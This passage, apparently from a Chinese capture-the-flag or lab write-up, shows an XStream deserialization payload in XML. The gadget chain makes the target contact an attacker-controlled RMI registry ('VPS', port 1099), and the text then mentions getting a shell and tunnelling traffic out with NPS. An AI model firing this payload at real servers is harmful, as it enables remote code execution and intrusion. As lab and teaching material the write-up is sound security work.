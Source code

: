 ```plain
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>VPS</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>VPS</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

拿到 shell 后，获取`第一个flag`后，自行做一个`NPS`隧道带出流量

[![](assets/1709193375-08c76212dcdbc08a8c12635e1328b7af.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205159-fecf6bf0-d56e-1.png)
